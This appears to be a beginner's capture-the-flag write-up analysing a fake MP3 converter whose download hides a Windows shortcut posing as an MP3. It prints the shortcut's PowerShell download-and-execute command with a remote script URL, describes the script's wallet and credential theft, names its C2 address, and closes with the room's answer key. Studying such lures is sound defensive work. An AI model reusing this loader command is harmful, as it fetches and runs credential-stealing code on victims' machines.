 **Investigating the Suspicious Website**

The suspicious website I analyzed was a YouTube-to-MP3 converter. These types of websites are often associated with various cyber threats, such as:

*Malvertising*: Using malicious ads to exploit vulnerabilities.

*Phishing Scams*: Tricking users into giving away sensitive information.

*Bundled Malware*: Hiding harmful software in downloads that seem legitimate.

**What I Did**:

I visited the website using the provided IP address.

To test it, I submitted a YouTube link (like this classic video).

I downloaded the output file, download.zip, and extracted its contents.

**Analyzing the Files**

Inside the extracted folder, I found two files: song.mp3 and somg.mp3. To figure out what they were, I used the file command:

*song.mp3*: A normal MP3 file with no issues.

*somg.mp3*: A Windows shortcut (.lnk) file pretending to be an MP3. Shortcut files can execute commands, so they’re often used for malicious purposes. This caught my attention, and I decided to dig deeper.

**Investigating the .lnk File with ExifTool**

To analyze the metadata of somg.mp3, I used ExifTool, a tool for extracting detailed file information. Here’s the command I ran:

`exiftool somg.mp3`

**What I Found:**

**Command Line Arguments**:
`-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('<URL>', 'C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"`

`-ep Bypass -nop`: These flags disable PowerShell’s security restrictions.

`DownloadFile`: This command downloads a malicious script (IS.ps1) from a remote server.

`iex`: Executes the downloaded script.

**Malicious URL**:

The file was fetching a script from this URL:
`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`

**Understanding the Malicious Script**

The PowerShell script, once analyzed, was performing several harmful activities:

Stealing Information: It searched for cryptocurrency wallets and saved browser credentials.

Data Exfiltration: The stolen data was sent to a Command-and-Control (C2) server.

Attacker Signature: The script contained an ASCII art signature:

Created by the one and only M.M.

This signature gave me a valuable clue about the attacker’s identity.

**Tracking the Attacker: OPSEC Mistakes**

I used the signature, “Created by the one and only M.M.,” as a starting point for my search. A quick look on GitHub revealed repositories and discussions tied to the attacker. Here are some OPSEC mistakes I noticed:

*Reused Username*: The attacker used “M.M.” across multiple platforms, making them easier to trace.

*GitHub Activity*: Their public GitHub posts included identifiable information.

*Metadata*: The signature embedded in the script directly linked back to their online accounts.

**Real-Life OPSEC Failures**

To give a broader perspective, here are two famous examples of OPSEC failures:

*AlphaBay Admin*:

Reused the same email and usernames on different platforms.

Cashed out using identifiable Bitcoin wallets.

*APT1 (a Chinese Hacking Group)*:

Used predictable naming schemes in their operations.

Conducted attacks during Beijing business hours, revealing their location.

**Wrapping Up**

By analyzing malicious files, paying attention to OPSEC mistakes, and tracing digital footprints, I was able to uncover critical details about the attacker. In this case, the sloppy operational security of “M.M.” made it possible to identify them. Investigations like this show how even small clues can unravel a larger story, giving beginners like you and me the confidence to dive into cybersecurity investigations.

**Answers**

*Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?* **Tyler Ramsbey**

*The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?* **http://papash3ll.thm/data**

*Who is M.M? Maybe his Github profile page would provide clues?* **Mayor Malware**

*What is the number of commits on the GitHub repo where the issue was raised?* **1**
